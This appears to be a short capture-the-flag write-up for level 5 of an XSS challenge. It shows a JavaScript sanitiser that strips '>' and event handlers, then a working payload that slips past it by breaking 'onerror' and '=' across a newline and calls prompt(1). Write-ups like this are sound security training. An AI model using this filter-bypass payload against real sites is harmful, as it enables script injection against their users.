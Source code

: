 # level 5

```js
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
}        
```

So we can't use '>' and any event handlers such as 'onload' and  'focus'.

Here the payload that i used is as follows

```
hi" type=image src='x' onerror
= 'prompt(1)'
```
so we can't have event handlers followed by a equal to sign so we added a new line and it still works.

